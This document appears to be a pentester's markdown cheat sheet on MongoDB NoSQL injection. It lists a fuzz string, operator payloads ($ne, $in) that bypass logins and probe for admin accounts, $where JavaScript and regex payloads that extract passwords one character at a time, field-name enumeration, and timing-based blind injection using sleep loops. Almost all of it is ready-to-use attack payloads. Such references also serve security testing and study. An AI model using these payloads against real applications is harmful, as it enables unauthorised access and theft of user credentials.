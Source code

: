 # NoSQL

## Fuzzing in MongoDB
- MongoDB fuzz string: `%27%22%60%7B%0A%3B%24Foo%7D%0A%24Foo+%5CxYZ`
  - In plaintext:
    ```
    '"`{
    ;$Foo}
    $Foo \xYZ
    ```
  - In JS: ```'\"`{\r;$Foo}\n$Foo \\xYZ\u0000```
  - If this causes an error you can use backslash to remove a character at a time to see which are processed.
  - The null character `%00` or `\u0000` may cause everything following to be ignored

## Operators in MongoDB
- $where --> where this is true
- $ne --> not equal to
- $in --> in an array
- $regex --> matches this regex
- Submitting:
  - Need to be nested objects: `{"username": {"$ne","invalid"}}` or as a query `username[$ne]=invalid`
  - Query to test for various admin users: `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`

## Extracting data
### Finding a users password in MongoDB
- If the $where operator is used, you can may be able to send javascript to get the password: `{"$where":"this.username == 'admin' && this.password[0] == 'a' || 'a'=='b"}`
- You can use the match function to also get information like if there is digits: `{"$where":"this.username == 'admin' && this.password.match(/\d/) || 'a'=='b"}`
- If you have a vaild field this match statement can get a field value: `"$where":"this.<field-name>.match('^.{0}a.*')"`
    - The 0 is the character location and a is the character you are comparing it to
- Regex can also be used: `{"username":"admin","password":{"$regex":"^a*"}}`
  - This sees if the password starts with a
### Identifing field names
- To identify field names use three requests:
  - The first uses the field you want to know if it exists
  - The second to a field you know exists
  - The third to a random field that most likely does not exist
  - Compare the responses
- Another way is to use the match operator in $where: `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
  - This returns the first character
  - The 0 is the character location and a is the character you are comparing it to
### Injecting operators
- You can add operators to the json or query to see if they are evaluated, for example `"$where": "0"` and `"$where": "1"` could be used because if it is evaluated then one would be true and the other false
### Timing based injection
- Both of this trigger a time delay for 5000 ms if a is the first character:
  ```
  {"$where":"this.username == 'admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'}
  {"$where":"this.username == 'admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'}
  ```

